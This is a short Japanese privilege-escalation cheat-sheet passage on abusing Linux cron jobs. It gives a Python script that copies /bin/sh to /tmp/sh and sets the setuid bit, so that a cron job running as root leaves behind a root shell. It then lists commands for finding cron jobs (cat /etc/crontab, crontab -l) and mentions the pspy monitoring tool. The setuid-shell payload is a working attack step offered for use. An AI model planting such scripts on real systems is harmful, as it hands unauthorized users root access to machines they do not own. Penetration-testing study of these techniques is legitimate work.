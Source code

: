 ## Cron Job
### Pythonで書かれているファイルに付与する例

以下のPythonコードを実行した後、`./sh`を実行します。

```python
#!/usr/bin/env python
import os
import sys
try:
        os.system('cp /bin/sh /tmp/sh ')
        os.system('chmod u+s /tmp/sh ')
except:
        sys.exit()
```

このコードは、`/bin/sh`を`/tmp/sh`にコピーし、`setuid`ビットを設定することで、`/tmp/sh`を実行するときに所有者の権限で実行されるようにします。

---

### Cronジョブの検出

Cronジョブを確認するために、以下のコマンドを使用します。

#### `/etc/crontab`ファイルの内容を表示
```bash
cat /etc/crontab
```

#### 現在のユーザーのCronジョブを表示
```bash
crontab -l
```

#### pspyツールの利用
`pspy`は、Linux上でリアルタイムに発生しているアクティビティを監視するための便利なツールです。
```
